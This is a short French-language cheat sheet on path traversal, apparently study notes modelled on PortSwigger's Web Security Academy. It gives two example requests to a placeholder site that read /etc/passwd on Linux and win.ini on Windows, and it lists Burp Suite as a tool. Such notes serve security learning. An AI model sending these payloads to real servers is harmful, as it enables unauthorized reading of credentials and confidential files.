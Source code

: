 # Path Traversal

## Description

Cette vulnérabilité permet à un attaquant de lire des fichiers arbitraires sur le serveur qui héberge l'application.

Ce type de vulnérabilité peut entraîner plusieurs impacts : 
- Lecture de données confidentielles sur le système (code source, informations d'identifications, informations personnelles)
- Modification de l'intégrité des fichiers (exemple : modifier le code de l'application pour changer son comportement)

## Methods

### Reading arbitrary files via path traversal

Linux : 
```http
https://insecure-website.com/loadImage?filename=../../../etc/passwd
```

Windows : 
```http
https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini
```
## Inspired by

- [Portswigger Web Security Academy - Server Side vulnerabilities apprentice](https://portswigger.net/web-security/learning-paths/server-side-vulnerabilities-apprentice)

## Tools

- [Burp Suite community](https://portswigger.net/burp/communitydownload)